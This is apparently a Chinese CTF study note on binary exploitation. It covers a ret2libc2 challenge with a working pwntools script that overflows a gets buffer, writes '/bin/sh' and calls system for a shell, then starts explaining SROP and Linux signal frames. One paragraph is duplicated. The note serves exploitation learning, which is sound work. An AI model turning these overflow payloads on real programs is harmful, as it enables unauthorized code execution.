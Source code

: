 ## ret2libc2
- 第1步：查看文件
	- ![[Pasted image 20230417123941.png]]
	- 同样内存不可执行
- 第2步：查看反汇编代码，发现gets危险函数，也有system函数，但是没有'/binsh'字符串
- 第3步：考虑如何利用漏洞
	- 主要是缺少字符串'/binsh'字符串，那么我们可以调用gets函数手动输入
	- 占位符+gets地址+system地址+gets参数（写入字符串的位置）+system参数（（写入字符串的位置）
- 第4步：编写exp
```python
from pwn import *

sh = process('./ret2libc2')

gets_plt = 0x08048460
system_plt = 0x08048490
buf2 = 0x804a080
binsh = b'/bin/sh'

#payload = binsh + b'a' * (0x70 - len(binsh)) + p32(system_plt) + b'1234' + p32(buf2)
payload = b'a' * (0x70) + p32(gets_plt) + p32(system_plt) + p32(buf2) + p32(buf2)
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()
```
- 结果
	- ![[Pasted image 20230417134145.png]]
# level 2
## SROP
srop的全称是Sigreturn Oriented Programming。所以我们首先需要了解一下Linux的信号机制
### signal 机制
![[Pasted image 20230424111157.png]]

如图所示，当有中断或异常产生时，内核会向某个进程发送一个 signal，该进程被挂起并进入内核（1），然后内核为该进程保存相应的上下文，然后跳转到之前注册好的 signal handler 中处理相应的 signal（2），当 signal handler 返回后（3），内核为该进程恢复之前保存的上下文，最终恢复进程的执行（4）。如图所示，当有中断或异常产生时，内核会向某个进程发送一个 signal，该进程被挂起并进入内核（1），然后内核为该进程保存相应的上下文，然后跳转到之前注册好的 signal handler 中处理相应的 signal（2），当 signal handler 返回后（3），内核为该进程恢复之前保存的上下文，最终恢复进程的执行（4）。
-   一个 signal frame 被添加到栈，这个 frame 中包含了当前寄存器的值和一些 signal 信息。
-   一个新的返回地址被添加到栈顶，这个返回地址指向 `sigreturn` 系统调用。
-   signal handler 被调用，signal handler 的行为取决于收到什么 signal。
-   signal handler 执行完之后，如果程序没有终止，则返回地址用于执行 `sigreturn` 系统调用。
-   `sigreturn` 利用 signal frame 恢复所有寄存器以回到之前的状态。
-   最后，程序执行继续。
64位的signal frame如下图所示，signal frame由ucontext_t结构体实现。
```c
// defined in /usr/include/sys/ucontext.h
/* Userlevel context.  */
typedef struct ucontext_t
  {
    unsigned long int uc_flags;
    struct ucontext_t *uc_link;
    stack_t uc_stack;           // the stack used by this context
    mcontext_t uc_mcontext;     // the saved context
    sigset_t uc_sigmask;
    struct _libc_fpstate __fpregs_mem;
  } ucontext_t;

// defined in /usr/include/bits/types/stack_t.h
/* Structure describing a signal stack.  */
```